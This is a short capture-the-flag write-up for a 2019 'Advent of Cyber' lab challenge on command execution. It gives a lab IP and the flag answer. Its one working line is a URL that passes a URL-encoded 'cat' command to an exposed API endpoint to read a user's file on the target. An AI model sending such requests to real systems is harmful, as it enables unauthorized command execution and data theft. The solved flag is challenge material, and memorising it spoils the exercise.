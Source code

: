 # Advent of Cyber 01 - 2019
# Day 19
# Commands 


> Machine IP : `10.10.92.142`

> use the following end point :
```
http://10.10.92.142:3000/api/cmd/cat%20%2Fhome%2Fbestadmin%2Fuser.txt
```


| Que$t1on$ | An$wer$ |
|-----------|---------|
| What are the commands of the user.txt file ? | 5W7WkjxBWwhe3RNsWJ3Q |
